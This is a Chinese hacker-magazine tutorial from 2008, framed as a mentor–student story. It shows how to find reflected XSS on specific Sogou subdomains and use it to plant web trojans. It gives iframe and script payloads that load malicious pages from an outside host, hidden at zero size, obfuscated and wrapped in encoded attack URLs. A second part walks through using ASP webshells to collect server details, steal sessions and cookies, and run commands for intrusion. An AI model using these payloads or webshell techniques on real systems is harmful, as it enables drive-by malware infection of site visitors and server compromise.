何谓跨站？XSS 又叫 CSS（Cross Site Script），也就是跨站脚本攻击。它指的是恶意攻击者往 Web 页面里插入恶意的 html 代码，当用户浏览该页时，嵌入 Web 里的 html 代码就会被执行，从而达到特殊目的。XSS 属于被动式的攻击，因为其被动且不好利用，所以许多人常忽略它的危害性。

XSS 攻击分为两类：第一类是来自内部的攻击，主要指的是利用程序自身的漏洞构造跨站语句，比如 dvbbs 的 showerror.asp 存在的跨站漏洞。另一类则是来自外部的攻击，指的是自己构造 XSS 跨站漏洞网页或者寻找非目标主机以外的有跨站漏洞的网页。比如我们要渗透一个站点，可以自己构造一个具有跨站漏洞的网页，然后构造跨站语句，通过结合其它技术，比如社会工程学等，欺骗目标服务器的管理员打开。

如何去寻找 XSS 漏洞呢？我给大家介绍一下我是如何寻找 SOGOU 的 XSS 漏洞的，搜索引擎是 XSS 漏洞发生的一个重要地方，前段时间我曾经测试过，没想到这么快对方就把主站的漏洞给修复了，不过好在还有几个分站没有修复，分别是“http://news.sogou.com/”（搜狗新闻）、“http://v.sogou.com/”（搜狗视频）、“http://pic.sogou.com/”（搜狗图片）。



我们主要检测网站是否对“<”、“>”、“;”、“"”等字符做了过滤，还有就是要注意标签的闭合问题。一般测试 XSS 的代码为：<script>alert('casper')</script>。这条语句的意思就是弹出一个内容为“casper”的提示框，如果在搜索这条语句的时候能弹出这样一个提示框就表示它存在 XSS 漏洞。分别在那三个搜狗分站的搜索栏中输入上边的测试语句并回车，如图 23、图 24、图 25。




可以看到这三个页面都弹出了那个提示框，表示它们都存在 XSS 漏洞。那么要如何利用呢？这里就需要用到前面挂马的知识了，既然那条测试语句都执行了，那么包含一个页面或者调用一个 JS 文件也是可以的了。第一种方法是包含文件，使用“<Iframe src=http://54abu.cn/MM.htm></iframe>”即可，其

2008 合订本上卷

# 菜鸟学堂

中“http://54abu.cn/MM.htm”就是网页木马的地址（图 26）。执行后会出现一个小框，小框里面就是 M M . h t m 的内容了，如果不想显示这个小框的话，可以将代码改为“<iframe src=http://54abu.cn/MM.htm width=0 height=0></iframe>”就可以了（图 27）。


还有一种就是远程调用一个 JS 文件，这种方法既简单又省事。其使用的代码为“<script>http://54abu.cn/MM.js</script>”，其中“http://54abu.cn/MM.js”就是我调用的 JS 文件。大家可以看到和前面检测用的代码差不多吧，都使用了 JavaScript 标记语言。和前面那种方法一样，直接将这条代码插入进即可（图 28）。

你不会在页面上看到有任何的异样，非常隐蔽。那么这个 JS 里该写些什么呢？又该怎么写呢？我给大家找到了一个用来将 JS 代码转换成 HTML 的页面，它生成的 JS 在调用的时候可以像被包含一个 HTML 一样。打开“http://www.ha0123.com/haoserver/jstohtm.htm”，将想转换的代码输入到上边，下边就会自动转换成 JS 格式（图 29），然后再将下边的代码保存在以 JS 为后缀的文件即可。

当然为了隐蔽挂马所用的代码，还可以将它们进行再加密以提高迷惑性。打开“http://www.ha0123.com/haoserver/htmeng.htm”，将需要加密的代码粘贴到下面“未加密密码区”，按“加密”按钮后，就会在“已加密密码区”生成加密的代码了（图 30）。把加密后的代码再和前面的 X S S 漏洞相结合，例如“http://news.sogou.com/news?query=%3Ciframe%20src%3Dhttp%3A//54abu.cn/MM.htm%3E%3C/iframe%3E”，你还能认出它是什么地址吗？隐蔽性加强了吧！






漫长的一课终于讲完了，还没等阿布开口，燕 MM 的 QQ 头像突然变成了灰色。阿布很是奇怪，马上掏出了手机！

> “WA！你杂下线了呢？难道网吧集体停电不成？”
“哇……布哥！你也太强了吧，怎么什么也知道啊！我们家附近就这一个破网吧，还停电了。哎！真是命苦啊！”
“不是吧！我这瞎猫碰上死耗子了？既然这样你就赶紧回家吧，外面也挺冷的！快过年了，回家帮爸妈收拾收拾东西！”
“再见了，布哥！快过年了，祝您老人家：身体健康，福如东海，寿比南山！”
“………………”已晕倒。

（文章中涉及到的工具 ASP+PHP 两用 Shell、D_SQLTools、Domain3.5、HDSI3.0 Goldsun 干净宽版、备份数据库利用工具等已经收录在光盘中）

2008 合订本上卷

# 菜鸟学堂

## 菜鸟师徒行

### WebShell 大接触

周五杰（阿布）

“开学了，又得一个人独守这寂静的月夜，燕 MM 要考试，我只能默默地给她打气了。”晚饭后，阿布一个人自言自语的喃喃道。饭后人一个人在繁华的街道上，看着情侣们都一一的拥抱在了一起，心里总是感觉很沉闷很沉闷，因为自己的另一半还沉浸在学习中。

“老公……我肚子不通气了，好难受哦！”一个女人对她的男人说。

阿布正好路过听到了他们的对话，心想着：该对燕 MM 说的关心话都说了，还有什么落下的呢？如果再她会不会烦呢？此时的心里头真的是很不好受啊，不知道该如何的关心（傻子都看的出来，阿布是恋爱了）。

阿布一直走着，路过一个卖水果的小摊子，他回过头看着红彤彤的苹果，想起了一句话，那就是——补充维他命对身体好。于是阿布买了几个苹果送到了燕 MM 宿舍的门口，敲了下门就连忙的躲了起来，等燕 MM 把苹果拿起来并且看到了自己写的纸条时他才安心的走了，看着她傻傻的笑了，阿布终于开心了。

可阿布没有想到的是，他到了宿舍，伙伴们告诉他燕 MM 给他送东西来了，阿布急忙跑到自己的床上打开了燕 MM 送给他的礼物，打开一看原来是一盒子梨，并且纸条上写着：布布，看 QQ。

阿布连忙从床上跳了下去，打开 QQ 看到的一个红色大字就是：师傅，给你送的梨子是去火的，对您老人家的身体好 ^_^。

阿布差点疯了，原来这小丫头已经算计好了。心想着：好吧，今天就来教教你 WebShell 的使用。于是二人又开始了紧张的对话中……

WebShell，一个耳熟能详的字眼，经常看到攻防文章中对于它的提及，也经常在黑客网站上发现它的踪迹，小菜们估计要开始抓耳挠腮了，WebShell 究竟是什么呢？为了让大家好不至于把头发扬，我特来给大家讲讲 WebShell 的故事，让我们共同揭开 WebShell 那神秘的面纱。

### WebShell 大揭秘

WebShell 是对于支持动态脚本的服务器环境而言，没有动态脚本的支持也就没有了 WebShell 的概念。那么为什么 WebShell 需要动态脚本的支持呢？因为 WebShell 也是一个动态脚本程序，只不过为了帮助我们来控制网站或者服务器罢了。就像菜刀放在厨师的手上叫做菜刀，放在坏人的手上叫做凶器一样。

这么一说大家是不是想到了传统的木马，例如 PcShare，它也是一个完整的程序，用在管理员手里就是管理工具，用在我们手里当然就成了黑客工具了。WebShell 就是一种跟传统木马相对的木马，当然还有网页木马也是。它们都是木马，只是表现出来的形式不同罢了。

动态脚本程序有很多的种类，比如 ASP、PHP、ASP.NET、JSP 等，所以对应的 WebShell 就有很多种类，不同的种类分别运行于不同的脚本环境下。目前 ASP 的脚本最为常见，为什么呢？这是因为使用 WINDOWS 系统来作为服务器的数量非常大，而 Windows 使用的 IIS 默认是支持 ASP 的，这也就造成了目前的 ASP 网站多如牛毛。

那么 WebShell 有什么特点才能使得它单独列为一类呢？WebShell 的隐蔽性很强，它可以轻松的穿越防火墙的阻拦，因为它使用的是 WEB 端口（通常为 80），一般的防火墙根本就无法进行阻拦，而且不会产生系统日志，最多也就是在 WEB 日志里留下脚印，技术不高的管理员看着网站被攻击也无从下手。

WebShell 使用起来很方便，它只需要一个 IE 浏览器就可以使用 WebShell 的全部功能，因为它的界面都是通过 WEB 网页方式呈现给大家的。相信看到这么强大的 WebShell 你眼睛已经发绿了吧！想尽快的掌握 WebShell 的使用要领吗？想投入 WebShell 的宽广怀抱吗？既然想还不赶紧往下看？

#### ASP 类的 WebShell

ASP 类的 WebShell 中比较有名气的要数海阳顶端网 ASP 木马和桂林老兵了。前者功能强大，不过体积稍微庞大了点；而后者呢，则刚好相反。

在上传 WebShell 之前，首先要把它的登录密码更改掉，为什么呢？还记得以前讲过的 ASP 接口的盗 QQ 收信文件吗？对了，就是怕其他人的恶意进入。打开海阳木马，听我将其中的机关慢慢道来（图 1）。





经过简单设置后，就可以将木马上传到 WEB 网站了，可以是通过数据库备份、上传漏洞、由小助手写入。在 IE 中输入木

# 菜鸟学堂

## 2008 合订本上卷

马的地址便可访问得到 webshell 了（图 2），输入密码登录后，就进入了 WebShell 的主菜单（图 3）。

#### 1、系统服务信息

这个功能模块可以获得当前服务器中的服务列表（图 4），可以查看各个服务的启动情况及其详细情况，比如 3389 服务、PcAnywhere 服务等。通过查看服务器开放的服务信息，就可以得出当前服务器开放了什么服务，然后进行后续的人侵活动。






#### 2、服务器相关数据

这个功能模块可分为五部分，我们可以从这个功能模块中获得相当多的服务器信息。从图 5 中可以得到当前服务器的内存大小、服务器的时间、服务器的软件（当前为 Microsoft-IIS/5.1，也就是说我的电脑使用的是 XP 系统）、服务器 CPU 数量等信息。

```
服务器相关参数：
1. 服务器名：192.168.10.254
2. 服务器IP：192.168.10.254
3. 服务器端口：80
4. 服务器内存：1014.42M
5. 服务器时间：2008-02-18 15:15:31
6. 服务器软件：Microsoft-IIS/5.1
7. 脚本超时时间：90
8. 服务器CPU数量：1
9. 服务器CPU详情：x86 Family 6 Model 13 Stepping 8, GenuineIntel
10. 服务器操作系统：Windows_NT
11. 服务器解译引擎：VBScript/5.6.8820
12. 本次文件实际路径：C:\Inetpub\wwwroot\2006.asp
```

图 5

从图 6 中可以得到当前服务器当前的系统环境及其硬件环境，比如系统目录、WINDOWS 目录、临时目录等信息。

```
服务器相关参数：
1. SystemRoot: C:\WINDOWS
2. WinDir: C:\WINDOWS
3. ComSpec: C:\WINDOWS\system32\cmd.exe
4. TEMP: C:\WINDOWS\TEMP
5. TMP: C:\WINDOWS\TEMP
6. NUMBER_OF_PROCESSORS: 1
7. OS: Windows_NT
8. Os2LibPath: D:\oracle\ora92\bin
9. Path: C:\Program Files\PC Connectivity Solution\;C:\WINDOWS\system32;C:\WINDOWS;C:\WINDOWS\System32\Wbem
10. PATHEXT: .COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH
11. PROCESSOR_ARCHITECTURE: x86
12. PROCESSOR_IDENTIFIER: x86 Family 6 Model 13 Stepping 8, GenuineIntel
13. PROCESSOR_LEVEL: 6
14. PROCESSOR_REVISION: 0d08
```

图 6

从图 7 中可以得到当前服务器上的磁盘信息，如果权限够大的话，可以看到各个磁盘分区的详细信息，比如类型、卷标、文件系统、可用空间等信息。

| 盘符 | 类型 | 卷标 | 文件系统 | 可用空间 | 总空间 |
| ---- | ---- | ---- | ---- | ---- | ---- |
| C | 本地磁盘 | 系统分区 | NTFS | 4.26 | 10G |
| D | 本地磁盘 | 工作分区 | NTFS | 2.92G | 20G |
| E | 本地磁盘 | 资料备份 | NTFS | 46.18M | 20G |
| F | 本地磁盘 | 游戏备份 | NTFS | 487.52M | 24.52G |
| G | CD-ROM |  |  |  |  |
| H | CD-ROM |  |  |  |  |

图 7

从图 8 中可以得到当前 WebShell 运行站点根目录的环境，比如物理路径、当前大小、文件夹及文件数、创建及修改时间等信息。

```
站点根目录信息：
1. 物理路径：C:\Inetpub\wwwroot
2. 当前大小：88.25K
3. 文件数：1
4. 文件夹数：0
5. 创建日期：2008-02-14 23:10:16
6. 最后访问日期：2008-02-18 15:08:22
```

图 8

```
终端服务端口及自动登录信息
当前终端服务端口：3389
系统自动登录功能未开启
```

图 9

从图 9 中可以得到当前服务器开放的终端端口号，这对于我们以后登录 3389 会有好处，而且会检查系统是否存在自动登录信息，如果存在的话，肯定就发了。

#### 3、服务器组件探针

这个功能模块可以列出服务器上各组件名称和支持情况（图 10），通过查询这些组件可以获得当前服务器支持的组件系统。


其中最为常见的就是 FSO 组件，很多 ASP 的运行都需要它的支持，Shell.Application、WScript.Shell 这两个组件的存在可以判断是否可以执行 CMD 命令。

#### 4、系统用户及用户组信息

这个功能模块可以得到当前服务器上存在的用户及其用户组（图 11），还可以得到更为详细的用户信息，让我们对服务器用户信息了如指掌。



#### 5、客户端服务器交互信息

这个功能模块可以得到当前服务器缓存中的信息（图 12），比如保存在 Session 里的登录密码（海阳就是这么处理的）、还有当前的 HTTP 头信息、COOKIES 等等敏感信息。

比如保存在 Session 里的登录密码（海阳就是这么处理的）、还有当前的 HTTP 头信息、COOKIES 等等敏感信息。



#### 6、WScript.Shell & Shell.Application 程序运行器

这两个功能模块的功能是差不多的（图 13，图 14），都可以通过内部函数执行 CMD 命令，然后再将结果反馈到 WEB 页面上来，这也是在提权过程中最常用的一个功能，详细的使用我们会在以后的提权部分中进行详细讲述。

